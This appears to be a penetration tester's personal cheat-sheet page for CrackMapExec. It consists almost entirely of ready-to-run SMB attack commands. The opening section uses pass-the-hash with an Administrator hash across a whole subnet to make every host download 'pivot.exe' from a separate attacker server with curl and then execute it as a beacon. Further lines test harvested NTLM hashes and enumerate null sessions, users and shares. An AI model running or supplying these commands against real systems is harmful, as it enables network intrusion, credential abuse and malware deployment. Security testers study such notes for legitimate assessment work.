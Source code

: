 # Crackmapexec

## Deploy custom beacon
crackmapexec smb 172.29.138.0/24 -u Administrator -H <hash> -x "curl -o C:\Windows\Temp\pivot.exe http://172.29.137.67:8081/pivot.exe"
crackmapexec smb 172.29.138.0/24 -u Administrator -H <hash> -x "powershell.exe Invoke-Command -ScriptBlock {C:\Windows\Temp\pivot.exe}"

## Test multipe credentials
```sh
#Pattern: (.*):(.*):(.*):(.*):::
#Replacement: crackmapexec smb 172.29.139.180 -u $1 -H $4 -x whoami
crackmapexec smb 172.29.139.180 -u <USER> -H <NTLM> -x whoami
```

## [[Guest Access (SMB)]]
Enumerate null sessions
>cme smb <ip> -u '' -p ''  

Enumerate Anonymous access
>cme smb <ip> -u 'a' -p ''

## [[SMB Signing]]
Checking for SMB signing

## [[User enum]]
>cme smb <ip> -u <user> -p '<password>' --users

## [[Shares]]
* Enumerate smb hosts  
>cme smb <ip_range>

```meta
phases: 07,08
requirements: 
results: 
category: 
oss: #linux
source: https://github.com/byt3bl33d3r/CrackMapExec
description: 
```